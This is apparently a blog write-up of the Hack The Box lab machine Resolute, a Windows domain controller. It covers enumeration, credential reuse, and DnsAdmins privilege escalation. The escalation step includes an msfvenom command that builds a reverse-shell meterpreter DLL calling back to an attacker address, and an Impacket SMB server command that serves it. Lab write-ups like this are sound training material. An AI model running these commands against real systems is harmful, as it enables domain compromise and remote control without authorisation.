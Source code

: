 ```yaml
---
permalink: /posts/HTB/Resolute
title: "HTB Resolute Write-up"
header-img: "/assets/images/HTB/Resolute/InfoCard.jpg"
header:
  teaser: "/assets/images/HTB/Resolute/InfoCard.jpg"
description: "Hackthebox's Resolute is a medium-rated Windows machine acting as the Domain Controller and DNS server for Megabank"
categories: 
  - CTF
date: 2020-05-30 18:30
tags: HTB Windows DNS
---
```

# Hackthebox - Resolute - 10.10.10.169

## Summary
Today, [Hackthebox](https://www.hackthebox.eu) retired Resolute,  a medium-rated Windows machine acting as the Domain Controller and DNS server for Megabank.
Here's my write-up.

![InfoCard](/assets/images/HTB/Resolute/InfoCard.jpg)

## Enumeration

Starting enumeration off with an initial nmap scan.
```
nmap -sV -sT -sC -p- -o nmapinitial -T4 10.10.10.169
```
While nmap returned a lot of opened ports , it doesn't look like there's anything I can use for now.

![nmapinitial](/assets/images/HTB/Resolute/nmapinitial.jpg)

I decide to also run enum4linux
```
enum4linux -o -U -G -S 10.10.10.169 > enum4linuxout.txt
```

Enum4linux does find something useful. It looks like the administrator added one of the user's initial password in the user's description.

![eunm4linux](/assets/images/HTB/Resolute/eunm4linux.jpg)

## Initial foothold and user flag

Trying to connect to the target using Evil-WinRM and marko's credentials fails, meaning that the user might have had their password changed in the meantime.

Since the admin might have been lazy and used the same password with other accounts, it is worth trying to connect to the target using the other user names combined with the _Welcome123!_ password.

I've created a list of all the user names found by enum4linux in order to use it with Metasploit's SMB Login Check Scanner

![users](/assets/images/HTB/Resolute/users.jpg)

I fire up msfconsole, configure necessary options and run it. It looks like the melanie user account works with the password found via enum4linux.

![smblogincheck](/assets/images/HTB/Resolute/smblogincheck.jpg)

I'm able to successfully connect using melanie's credentials and obtain the user flag.

![userflag](/assets/images/HTB/Resolute/userflag.jpg)

## Privilege escalation

After some more enumeration of the directories and files on the system, I find the C:\SPTranscripts directory.

![dirforce](/assets/images/HTB/Resolute/dirforce.jpg)

The PSTranscripts directory contains the PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt file in which I found ryan's password.

![ryanspass](/assets/images/HTB/Resolute/ryanspass.jpg)

Connecting with ryan's credentials works and, even though the ryan user is not a member of the Administrators group, it is a member of the [DnsAdmins](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) group

![ryan](/assets/images/HTB/Resolute/ryan.jpg)

## Privilege escalation to system and getting the root flag

I create the payload that will spawn a reverse shell using msfvenom with the following parameters: 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4455 --platform windows -a x64 -e x64/xor -i 12 -f dll -o dns.dll
```

![msfvenom](/assets/images/HTB/Resolute/msfvenom.jpg)

I then set up an SMB share using Impacket's smbserver.py.
```
python /root/Scripts/Impacket/impacket-0.9.20/examples/smbserver.py DNSPLD ./
```

I configure metasploit and start a the listener to catch the connection from the target once the payload is executed.

![msfclistener](/assets/images/HTB/Resolute/msfclistener.jpg)

And I proceed to load the payload into the target's DNS configuration and then restart the DNS service.

![loadpayload](/assets/images/HTB/Resolute/loadpayload.jpg)

In a few seconds I get a meterpreter shell as the system user.

![meterpretersession](/assets/images/HTB/Resolute/meterpretersession.jpg)

Then get the root flag.

![rootflag](/assets/images/HTB/Resolute/rootflag.jpg)

And that's pretty much it.
